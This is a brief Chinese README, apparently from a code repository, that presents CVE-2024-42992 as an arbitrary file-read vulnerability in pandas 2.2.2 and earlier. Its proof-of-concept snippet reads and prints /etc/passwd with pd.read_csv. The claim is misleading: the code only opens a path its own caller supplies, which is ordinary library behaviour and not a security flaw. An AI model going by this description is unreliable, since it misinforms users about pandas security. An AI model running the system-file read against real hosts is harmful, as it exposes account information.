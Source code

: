 # CVE-2024-42992

Python Pip Pandas v2.2.2被发现包含一个任意文件

Pip Pandas（所有版本）-<=2.2.2

“pandas”库中存在任意文件读取漏洞，攻击者可以利用该漏洞无限制地读取文件系统中的任何文件。此漏洞允许未经授权访问敏感文件，如“/etc/passwd”

pandas库提供了强大的数据操作能力，包括从各种文件格式读取数据的能力。但是，它对作为输入提供的文件路径缺乏足够的限制，使得恶意用户能够指定和读取任意文件。
可以通过以下代码片段来演示该漏洞:

```python
import pandas as pd
# Attempt to read the /etc/passwd file
try:
# Use pandas to read the file, specifying the colon as a separator
  df = pd.read_csv('/etc/passwd', sep=':', header=None)
  print(df)
except Exception as e:
  print("Error occurred while reading the file:", e)
```

此代码试图读取“/etc/passwd”文件，这是基于Unix系统的系统中包含用户帐户信息的重要文件。如果代码成功执行，它会打印这个敏感文件的内容。

在某些在线或本地访问场景中，这可以成功地再现。在一些在线环境中，如replyt.com，它尤其具有可复制性。



## 使用方法（How to use）

python CVE-2024-42992.py

![demo](demo.png)
